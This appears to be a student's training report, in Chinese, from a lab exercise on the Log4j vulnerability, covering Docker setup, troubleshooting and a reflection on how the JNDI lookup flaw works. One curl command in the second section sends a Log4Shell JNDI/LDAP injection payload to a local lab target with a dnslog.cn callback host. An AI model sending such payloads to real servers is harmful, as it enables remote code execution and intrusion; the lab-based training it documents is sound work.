

# 个人报告

### 一、工作内容：

|   日期    |                日程                 |
| :-------: | :---------------------------------: |
| 7.10-7.15 |            观看教学视频             |
| 7.17-7.19 |        环境配置及修理虚拟机         |
| 7.20-7.25 | 漏洞检测与漏洞利用（获取反弹shell） |
|   7.26    |  **对漏洞攻击进行检测和识别处理**   |
|   7.27    |      漏洞利用的缓解与漏洞修复       |
|   7.28    |            报告整理编写             |

其中主要工作内容为蓝队**对漏洞攻击进行持续检测和识别处理**。但由于对攻击进行检测意味着需要完成一次漏洞攻击，所以漏洞利用获取反弹shell的部分也有涉及。漏洞修复与报告整理部分为小组成员共同完成。

### 二、部分工作内容记录

- [7.17环境配置及修理虚拟机](环境配置及修理虚拟机)

- 7.20-7.25漏洞利用

  靶机执行代码启动docker

  ```bash
  # 进入start.sh所在目录下
  $ cd ctf-games/fofapro/vulfocus
  
  # 开启管理员权限
  $ sudo su
  
  # 启动第一个docker
  $ bash start.sh
  ```

  进入`vulfocus`界面，开启映射端口，并在`dns`网站获取子域名，在攻击者主机执行代码

  ```bash
  # 替换为vulfocus映射端口和dns子域名
  
  curl -X GET http://`192.168.73.128:55520`/hello?payload=$%7Bjndi:ldap://`wfe5af.dnslog.cn`/exp%7%0A
  ```

  回到`dnslog.cn`，查询记录。

  

- [7.26漏洞检测与威胁识别](漏洞检测与威胁识别)

### 三、问题与解决

1. Docker启动报错`no such container`或与已有容器冲突

   **解决**：重新创建容器，若是未正确创建容器，则先删除后创建。相关代码如下：

   ```bash
   # 查找容器 ID
   $ docker ps -a
   
   # 删除容器
   $ docker rm <CONTAINER ID>
   
   # 重新创建容器
   $ docker run <IMAGE NAME>
   ```

2. 使用端口时显示端口已被占用

   **解决**：看清输出信息，查看所要使用的端口是否与默认监听端口有冲突，如本次juice-shop的端口就需要修改`webgoat8`默认监听 8088 端口，避免和 juice-shop的端口占用产生冲突。

3. 靶机进入容器终端后攻击者未同步

   **解决**：执行`docker rm <CONTAINER ID>`命令时容器ID使用错误，使用了`vulfocus_vul-focus_1`的id，`docker ps`查询容器状态表格修改后正常运行。

### 四、个人反思

本次漏洞攻防实训由于小组成员只能线上见面难度增加，但仍在大家共同的努力下学到了很多。

第一天看到`Log4j`的原理有被难到，后来慢慢地理解到这其实就是一个基于Java的日志记录工具，它存在于`Log4`j的`JNDI`查找功能中，而这个查找有一个设计缺陷。

具体来说，这个功能允许开发者在日志配置文件中使用类路径资源名称作为日志输出的地方，当Log4j需要将日志写入到这些位置时，它会使用Java命名和目录接口进行查找，并在找到资源后写入日志。于是攻击者可以通过特殊构造的请求，利用此漏洞向Log4j发送恶意请求，从而触发远程代码执行漏洞，进而获得服务器上的完全控制权限，实现漏洞利用攻击。

简单来说，就是输入的字符串只要是符合特定形式（`${`）都可以进行对应的操作，而输入时又没有添加限制，则输入者可以利用此漏洞随意编写恶意请求。

同样，在后续的docker使用中，对于容器的使用如果出现问题往往需要删除，全部从头再来，非常考验耐心，所以真的非常需要对于每一步操作所代表含义的详细理解，才能减少在执行代码时出错。

其实可以感觉到，有时候对于网络安全的学习者来说，因为安全的维护需要不断接触安全漏洞，“在危险的边缘反复横跳”，所以更需要对于法律的坚定认知与坚决维护。正如黄老师在课件上多次强调的，知法守法。